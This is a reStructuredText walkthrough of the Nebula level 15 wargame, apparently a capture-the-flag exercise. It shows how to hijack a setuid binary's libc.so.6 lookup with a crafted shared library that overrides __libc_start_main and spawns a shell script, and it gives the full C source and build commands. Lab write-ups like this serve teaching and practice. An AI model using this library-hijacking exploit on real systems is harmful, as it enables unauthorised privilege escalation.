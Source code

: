 .. _nebula15:

.. role:: bash(code)
	  :language: bash

.. role:: c(code)
	  :language: c
		     
Nebula level 15
===============

Basic information
-----------------

**Home Page:** https://exploit-exercises.com/nebula/level00/

**No source code given**

Solution
--------

:bash:`strace /home/flag15/flag15`

We can see that the program is looking for the library libc.so.6

We have to create multiples files in order to solve this level

First create a version file as follows

:bash:`echo "GLIBC_2.0 { };" > version`

Then create a bash script and name it run.sh

.. code-block:: bash

		#!/bin/bash -ex

		gcc -fPIC -g -c -Wall getflag.c
		gcc -shared -Wl,-Bstatic,-soname,libc.so.6,--version-script,version -o libc.so.6 getflag.o  -L/usr/lib/i386-linux-gnu -static-libgcc
		mv /home/level15/libc.so.6 /var/tmp/flag15/
		/home/flag15/flag15
		cat /home/flag15/getflag.log

Then create your shared library and name it getflag

.. code-block:: c

		#include <stdio.h>
		#include <sys/syscall.h>
		#include <unistd.h>

		void __cxa_finalize(void *d) {
		    return;
		}

		int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
		    char *args_new[] = { "/bin/sh", "/home/level15/flag.sh" };
		    execve("/bin/sh", args_new, (char *const *)NULL);
		    return 0;
		}

Finally create a bash script and name it flag.sh

.. code-block:: bash

		#!/bin/bash

		getflag > /home/flag15/getflag.log
		
Then execute the run.sh file

:bash:`bash run.sh`
